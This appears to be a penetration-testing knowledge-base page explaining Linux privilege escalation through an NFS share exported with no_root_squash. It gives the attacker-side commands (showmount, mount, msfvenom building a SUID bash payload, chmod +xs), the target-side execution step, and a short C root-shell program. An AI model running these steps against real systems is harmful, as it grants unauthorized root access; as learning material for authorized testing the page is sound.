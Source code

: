 # Network File Sharing (NFS)
***

Network File Sharing (NFS) is a protocol used for sharing files and directories across a network. Its configuration file is typically created during NFS server installation and is commonly found at the path /etc/exports. A key factor in understanding a potential privilege escalation vector with NFS is the "no_root_squash" option.

When an NFS server is configured with "no_root_squash," it means that NFS won't alter the permissions of files associated with the root user. Normally, NFS changes the root user's privileges to that of the "nfsnobody" user, stripping files of their root privileges. However, if "no_root_squash" is enabled on a writable share, it allows the creation of executables with the SUID (Set User ID) bit set, which can then be executed on the target system.

## Example
In the provided image, it's evident that the "/tmp" directory is configured with the "no_root_squash" flag. This flag indicates that the NFS share of this directory retains the ownership of files and folders by the root user.

![atl text](https://raw.githubusercontent.com/masjadaan/Knowledgebase/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/54e5801b4ff244269fca7e8f8215ee0c.png)

### Attacker Machine
```sh
sudo su

# Enumerate mountable shares
showmount -e <targetIP>

# mount the share with no_root_squash to attacker machine
mkdir /tmp/nfs
mount -o rw,vers=2 <targetIP>:/tmp /tmp/nfs

# Msfvenom
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

# Set SUID and make it executable
chmod +xs /tmp/nfs/shell.elf
```

### Target Machine
```sh
# execute the shell.elf
/tmp/shell.elf
```


#### Notes:
- instead of using msfvenom, you can create shell.c
```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}
```
